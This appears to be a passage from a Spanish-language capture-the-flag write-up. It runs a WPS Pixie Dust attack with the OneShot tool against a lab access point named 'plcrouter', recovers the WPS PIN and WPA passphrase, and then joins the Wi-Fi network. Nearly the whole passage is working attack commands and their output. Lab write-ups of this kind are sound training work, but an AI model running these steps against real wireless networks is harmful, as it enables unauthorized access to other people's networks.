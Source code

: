 ```bash
root@attica04:/tmp# python3 oneshot.py -i wlan0 -b 02:00:00:00:01:00 -K
[*] Running wpa_supplicant…
[*] Running wpa_supplicant…
[*] Trying PIN '12345670'…
[*] Scanning…
[*] Authenticating…
[+] Authenticated
[*] Associating with AP…
[+] Associated with 02:00:00:00:01:00 (ESSID: plcrouter)
[*] Received Identity Request
[*] Sending Identity Response…
[*] Received WPS Message M1
[P] E-Nonce: 4D73238AAD5EA4BB8659BE431387EF0F
[*] Sending WPS Message M2…
[P] PKR: B847E5A1104AD28A51A3DD8E12222558742824FA2321DE936DA8C19C07CA9FFF1D34B8406AC86ED6C928CD30E94E62DCDC933E9D7940D216521F8394CF1287750520E2AD5ED6F5C0CA4DFC3196AC4C6043D70D8D55845F029D814134FBBB28DA4A2E8B983DA5D9ACDA59D07F515B87936BF3CD3EC0A75248D110BB64F7C602ECA4EB7DE554E56AD400D27690115C736C99E3E6BBC238D290ABDF3CAB2A4749E56A181101851DB1750DEC72D9518772C0C93A54CC3410BADD58B9D3E9A8B5B1C1
[P] PKE: 9473DD1854AFCF1E20B589367AAC263B07F4CD507F797FD29B48B4A1F53204C3F61131C068FC40DF70877DA345FE52C17B390266906C5A180A761C9C85528AFB582EACF28FA77E7B25A0418F4103ED11352F3D4DFCDF670B06C39BB5BC9B5A8FBD365D42F2E5BF27866DB9A179B5C5C456C322437FB32CD1EB50E2EED2AFA49D5BF05D1D904034EA3D6535A269C80ADEF72A3BB716A61DE9064A865C29607C066EEF849956E80DCF4424475BA80A3D10B50B97F290E8E939F610FC259BBC1BEF
[P] AuthKey: A21E8B26D754670B8DC58EA6807494B03017B39220D6AD23F0822EEB60369803
[*] Received WPS Message M3
[P] E-Hash1: EDB29D5AADFA9D48836C5696FFCC3BCA538129B75A5B002CC96D48D7E7C868C1
[P] E-Hash2: 0BDEE1CA4EBF19F4A63507E69323DCAA1AC1F6F492FB8C01A01BEC2EFB070D8C
[*] Sending WPS Message M4…
[*] Received WPS Message M5
[+] The first half of the PIN is valid
[*] Sending WPS Message M6…
[*] Received WPS Message M7
[+] WPS PIN: '12345670'
[+] WPA PSK: 'NoWWEDoKnowWhaTisReal123!'
[+] AP SSID: 'plcrouter'
```
Ahora procedemos a crear la contraseña PSK
```bash
root@attica04:/tmp# wpa_passphrase plcrouter NoWWEDoKnowWhaTisReal123! | sudo tee -a /etc/wpa_supplicant/wpa_supplicant.conf
network={
	ssid="plcrouter"
	#psk="NoWWEDoKnowWhaTisReal123!"
	psk=2bafe4e17630ef1834eaa9fa5c4d81fa5ef093c4db5aac5c03f1643fef02d156
}
```
Procedemos a conectarnos al WIFI
```bash
root@attica04:/tmp# wpa_supplicant -B -i wlan0 -c /etc/wpa_supplicant/wpa_supplicant.conf 
Successfully initialized wpa_supplicant
rfkill: Cannot open RFKILL control device
rfkill: Cannot get wiphy information
```
Le asignamos una ip manualmente a la interface wlan0
```bash
root@attica02:/tmp# sudo ifconfig wlan0 192.168.1.7 netmask 255.255.255.0 up
```
Entonces vemos si se configuro bien 
```bash
root@attica02:/tmp# ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.0.3.3  netmask 255.255.255.0  broadcast 10.0.3.255
        inet6 fe80::216:3eff:fefb:30c8  prefixlen 64  scopeid 0x20<link>
        ether 00:16:3e:fb:30:c8  txqueuelen 1000  (Ethernet)
        RX packets 7341  bytes 579092 (579.0 KB)
```